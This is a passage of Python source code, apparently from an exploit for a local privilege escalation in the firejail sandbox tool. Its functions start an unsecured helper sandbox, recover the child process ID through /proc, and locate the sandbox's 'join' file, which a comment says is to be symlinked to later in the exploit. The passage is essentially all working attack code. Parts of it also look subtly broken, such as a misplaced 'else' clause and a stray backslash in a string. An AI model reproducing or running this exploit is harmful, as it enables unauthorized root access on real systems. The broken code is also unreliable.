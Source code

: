 ```python
        printe(f"{__file__} needs to have the execute bit set for the exploit to \
work. Run `chmod +x {__file__}` and try again.")

# This creates a "helper" sandbox that serves the purpose of making available
# a proper "join" file for symlinking to as part of the exploit later on.
#
# Returns a tuple of (proc, join_file), where proc is the running subprocess
# (it needs to continue running until the exploit happened) and join_file is
# the path to the join file to use for the exploit.
def createHelperSandbox():
    # just run a long sleep command in an unsecured sandbox
    proc = subprocess.Popen(
            "firejail --noprofile -- sleep 10d".split(),
            stderr=subprocess.PIPE)

    # read out the child PID from the stderr output of firejail
    while True:
        line = proc.stderr.readline()
        if not line:
            raise Exception("helper sandbox creation failed")

        # on stderr a line of the form "Parent pid <ppid>, child pid <pid>" is output
        line = line.decode('utf8').strip().lower()
        if line.find("child pid") == -1:
            continue

        child_pid = line.split()[-1]

        try:
            child_pid = int(child_pid)
            break
        except Exception:
            raise Exception("failed to determine child pid from helper sandbox")

    # We need to find the child process of the child PID, this is the
    # actual sleep process that has an accessible root filesystem in /proc
    children = f"/proc/{child_pid}/task/{child_pid}/children"

    # If we are too quick then the child does not exist yet, so sleep a bit
    for _ in range(10):
        with open(children) as cfd:
            line = cfd.read().strip()
            kids = line.split()
            if not kids:
                time.sleep(0.5)
                continue
            elif len(kids) != 1:
                raise Exception(f"failed to determine sleep child PID from helper \
sandbox: {kids}")

            try:
                sleep_pid = int(kids[0])
                break
            except Exception:
                raise Exception("failed to determine sleep child PID from helper \sandbox")  
            else:
                raise Exception(f"sleep child process did not come into existence in {children}")

    join_file = f"/proc/{sleep_pid}/root/run/firejail/mnt/join"
    if not os.path.exists(join_file):
        raise Exception(f"join file from helper sandbox unexpectedly not found at \
{join_file}")

```
